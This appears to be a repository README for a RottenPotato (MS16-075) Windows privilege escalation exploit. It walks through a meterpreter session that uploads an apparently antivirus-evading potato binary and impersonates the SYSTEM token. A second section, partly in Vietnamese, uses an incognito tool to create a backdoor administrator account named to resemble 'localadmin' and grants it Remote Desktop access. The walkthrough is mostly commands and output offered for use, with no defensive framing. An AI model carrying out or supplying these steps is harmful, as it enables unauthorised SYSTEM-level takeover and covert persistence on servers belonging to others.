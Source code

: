 # MS16-075 

- The potato.exe was from [@FoxGlove](https://github.com/foxglovesec/RottenPotato)
- For a technical overview of this [exploit]( https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/)

Vulnerability reference:
 * [MS16-075](https://technet.microsoft.com/library/security/MS16-075)
 

## RottenPotato

Local Privilege Escalation from Windows Service Accounts to SYSTEM

## Videos for example
- [SQL Server](https://www.youtube.com/watch?v=3CPdKMeB0UY) 
- [IIS](https://www.youtube.com/watch?v=wK0r-TZR7w8)

## Usage of msf
```
msf exploit(web_delivery) > set ExitOnsession false
msf exploit(web_delivery) > run
meterpreter > getuid
Server username: IIS APPPOOL\DefaultAppPool
meterpreter > getprivs
===========================================================
Enabled Process Privileges
===========================================================
 SeAssignPrimaryTokenPrivilege

meterpreter > upload  potato_av.exe C:\Users\Public
meterpreter > cd C:\\Users\\Public
meterpreter > use incognito
meterpreter > list_tokens -u
NT AUTHORITY\IUSR

meterpreter > execute -cH -f ./potato_av.exe
meterpreter > list_tokens -u
NT AUTHORITY\IUSR
NT AUTHORITY\SYSTEM

meterpreter > impersonate_token "NT AUTHORITY\\SYSTEM"

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

***
- It is important to impersonate the token (or run list_tokens -u) quickly after runnning the binary.
- It is also important to follow the order of the steps. 
- Make sure you "use incognito" before running the binary.

***

## Usage of msf
- Upload potato_av va incognito_av len server
- Chay potato_av.exe nhieu lan
- Chay incognito_av
```
incognito_av.exe list_tokens -u
incognito_av.exe add_user loca1admin 123qwebca@a63811
incognito_av.exe add_localgroup_user administrators loca1admin
incognito_av.exe add_localgroup_user "remote desktop users" loca1admin
```
